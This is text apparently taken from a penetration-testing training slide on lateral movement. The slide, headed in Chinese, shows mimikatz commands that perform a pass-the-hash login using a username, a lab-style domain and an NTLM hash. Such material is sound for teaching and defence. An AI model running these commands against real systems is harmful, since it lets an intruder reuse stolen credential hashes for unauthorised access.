

PART

横向移动 – pass the hash
TWO

mimikatz
privilege::debug
sekurlsa::pth  /user:de1ay  /domain:de1ay.com           /ntlm:161cff084477fe596a5db81874498a24